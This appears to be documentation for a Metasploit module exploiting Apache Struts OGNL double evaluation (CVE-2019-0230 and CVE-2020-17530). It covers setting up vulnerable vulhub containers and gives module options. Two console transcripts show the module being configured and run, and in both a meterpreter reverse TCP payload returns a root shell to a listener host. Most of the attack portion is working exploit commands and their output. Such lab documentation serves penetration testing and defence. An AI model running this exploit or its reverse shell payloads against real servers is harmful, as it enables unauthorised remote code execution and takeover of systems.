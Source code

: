 The Apache Struts frameworks, when forced, performs double evaluation of attributes' values assigned to certain tags
attributes such as id so it is possible to pass in a value that will be evaluated again when a tag's attributes will be
rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

This vulnerability is application dependant. A server side template must make an affected use of request data to render
an HTML tag attribute.

## Vulnerable Application
Vulnerable versions of struts for both CVEs are provided by [vulhub][1] on GitHub. The setup instructions are identical
for both, just use the provided files in the correct directory. 

1. Use `git` to clone `https://github.com/vulhub/vulhub.git`.
1. Change directories into the one corresponding to the CVE that should be tested. For CVE-2019-0230, use
  `struts2/s2-059` and for CVE-2020-17530, use `struts2/s2-061`.
1. From within the directory, run `docker-compose up -d`
1. (OPTIONAL) Run `docker-compose exec struts2 bash` to obtain an interactive shell within the container. This is useful
  for debugging purposes.
  
* CVE-2019-0230 was patched in 2.5.20
* CVE-2020-17530 was patched in 2.5.26

### Example Setting Up CVE-2020-17530 / S2-061

```
[smcintyre@localhost ~]$ git clone https://github.com/vulhub/vulhub.git
Cloning into 'vulhub'...
remote: Enumerating objects: 234, done.
remote: Counting objects: 100% (234/234), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 10171 (delta 86), reused 191 (delta 69), pack-reused 9937
Receiving objects: 100% (10171/10171), 130.98 MiB | 8.36 MiB/s, done.
Resolving deltas: 100% (4014/4014), done.
[smcintyre@localhost ~]$ cd vulhub/struts2/s2-061
[smcintyre@localhost s2-061]$ docker-compose up -d
Creating network "s2-061_default" with the default driver
Pulling struts2 (vulhub/struts2:2.5.25)...
2.5.25: Pulling from vulhub/struts2
756975cb9c7e: Pull complete
d77915b4e630: Pull complete
5f37a0a41b6b: Pull complete
96b2c1e36db5: Pull complete
27a2d52b526e: Pull complete
93a36defce60: Pull complete
9e2014d79b30: Pull complete
ac71d4ce2ce4: Pull complete
a2f817e4badf: Pull complete
62ac51b7362f: Pull complete
e12f6705ebbe: Pull complete
4f4fb700ef54: Pull complete
97ba98138d72: Pull complete
Digest: sha256:eaf49b95f2c178cca77d3c8454f79a4fe4ed4dd9d342c9e9a911e842565217d2
Status: Downloaded newer image for vulhub/struts2:2.5.25
Creating s2-061_struts2_1 ... done
[smcintyre@localhost s2-061]$ docker-compose exec struts2 bash
root@d37b5ab61b87:/usr/src# 
```

## Verification Steps

1. Install the vulnerable application, see the "Vulnerable Application" section.
1. Start `msfconsole`
1. Do: `use exploit/multi/http/struts2_multi_eval_ognl`
1. Set the `RHOSTS` and `CVE` options
1. Do: `run`

## Options

### NAME
The HTTP query parameter or form data name. This option is closely related to the vulnerability and will likely be
application specific in real world environments. This must be the name of a parameter sent through either a GET or POST
request to the application that is reflected back as an HTML attribute. The module's `check` method will utilize this
value to determine if it can be used to evaluate OGNL expressions.

## Scenarios

### CVE-2020-17530 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2020-17530
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.18.0.2:46770) at 2020-12-15 19:43:28 -0500
[*] Command Stager progress - 100.00% done (820/820 bytes)

meterpreter > getuid
Server username: root @ d37b5ab61b87 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.6 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### CVE-2019-0230 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set CVE CVE-2019-0230 
CVE => CVE-2019-0230
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2019-0230
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.19.0.2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.19.0.2:47884) at 2020-12-15 19:47:10 -0500

meterpreter > getuid
Server username: root @ 91f7855f1eda (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 10.5 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://github.com/vulhub/vulhub

